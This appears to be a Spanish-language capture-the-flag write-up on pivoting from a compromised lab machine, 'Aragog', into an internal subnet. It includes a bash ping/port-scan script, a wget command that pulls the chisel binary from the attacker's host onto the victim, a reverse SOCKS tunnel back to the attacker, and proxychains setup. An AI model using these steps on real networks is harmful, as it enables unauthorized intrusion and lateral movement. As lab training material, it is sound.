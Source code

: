 #Aragog
[[192.168.1.23 (Aragog)]]
- Pwned

En el directorio `/tmp` creamos un fichero llamo `hostDiscovery.sh` que nos permitirá hacer un reconocimiento de red sobre esa interfaz para encontrar host activos:
El script lo que hace directamente es buscar sobre las IP que respondan a una llamada y tengan puertos activos.
```shell
#!/bin/bash

# Función para escanear puertos de un host activo
scan_host() {
    local host=$1
    for port in 21 22 80 443 445 8080; do
        # Intenta conectarse al puerto con timeout
        timeout 1 bash -c "echo > /dev/tcp/$host/$port" &>/dev/null && \
            echo "[+] Host $host - PORT $port - OPEN"
    done
}

# Capturar Ctrl+C para salir limpio
trap "echo -e '\n[*] Escaneo interrumpido'; exit" SIGINT

for i in $(seq 1 254); do
    host="10.10.0.$i"
    # Comprobar si el host está activo
    if ping -c 1 -W 1 $host &>/dev/null; then
        echo "[*] Host $host activo. Escaneando puertos..."
        scan_host $host
    fi
done
```

Lo ejecutamos y nos dará la otra ip que se ve desde nuestra interfaz de red [[10.10.0.4 (Aragog)]]
Vemos que hay una IP del otro lado que es la `10.10.0.5`

Usaremos `https://github.com/jpillora/chisel`para crear un túnel de tipo socks para llegar a los puertos que hay en los puertos de la red interna que desde nuestra maquina atacante no llegamos a ver.

Lo descargamos y lo descomprimimos y le damos permisos de ejecución.
Lo transferimos a la maquina victima a través de Python
`python3 -m http.server 80`

Y en la maquina victima:
`wget http://192.168.1.19/chisel`

Ejecutamos chisel en la maquina atacante como servidor para que las maquinas se conecten a el
`./chisel server --reverse -p 1234`

Ahora en la maquina victima lo ejecutamos como cliente en la maquina victima:
`./chisel client 192.168.1.19:1234 R:socks`

Lo que estamos haciendo con el parámetro `R:socks` es abrirte el puerto `1080` haciéndote un túnel directo a la maquina `10.10.0.5`


En la maquina atacante abrimos el archivo ` /etc/proxychains4.conf` y modificamos:
`dynamic_chain` comentado
`stric_chain` descomentado
Y al final del documento añadimos `socks5 127.0.0.1 1080`




